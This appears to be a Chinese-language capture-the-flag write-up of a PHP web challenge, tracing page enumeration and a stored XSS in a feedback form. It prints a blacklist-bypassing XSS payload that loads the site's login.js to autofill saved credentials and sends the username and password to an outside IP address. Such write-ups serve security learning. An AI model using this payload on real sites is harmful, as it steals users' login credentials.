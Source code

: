 ![](<./img/Pasted image 20230221173257.png>)

```
/login.php
```

![](<./img/Pasted image 20230221173321.png>)

```
/register.php
```

![](<./img/Pasted image 20230221173341.png>)

```
username: a
password: 1
```

```
/index.php
```

![](<./img/Pasted image 20230221173622.png>)

```
/feedback.php
```

![](<./img/Pasted image 20230221174611.png>)

```
/list.php
```

![](<./img/Pasted image 20230221174835.png>)

没有什么思路.jpg

在`/feedback.php`下发现了奇怪的东西

![](<./img/Pasted image 20230221175025.png>)

像是`XSS`的样子，还自带了一个方便绕过的黑名单，感动

但是利用方式完全不知晓，毕竟不知道账号密码什么的到底放哪了

看了wp，发现居然漏掉了`login`页面的审计，大意了qaq

![](<./img/Pasted image 20230221175521.png>)

![](<./img/Pasted image 20230221175558.png>)

通过`login.js`来实现自动填充密码的功能

这样就知道了明文账密的位置，但由于`cookie`在黑名单的最后一个，无法通过插入处于自己后面的关键词绕过，所以再来一波借刀杀人，拿`login.js`来获取账密

```html
<inscriptput type="text" name="username">
<inscriptput type="password" name="password">
<sciframeript srgetElementc="./js/login.js"></sciframeript>
<sciframeript>
	var username = docookiecument.gedocumenttElementsByName("username")[0].value;
	var password = docookiecument.gedocumenttElementsByName("password")[0].value;
	docookiecument.losvgcation = "http://193.111.30.158:2333?info=" + username + "|" + password;
</sciframeript>
```

![](<./img/Pasted image 20230221183940.png>)

#Web #PHP #js #XSS #bypass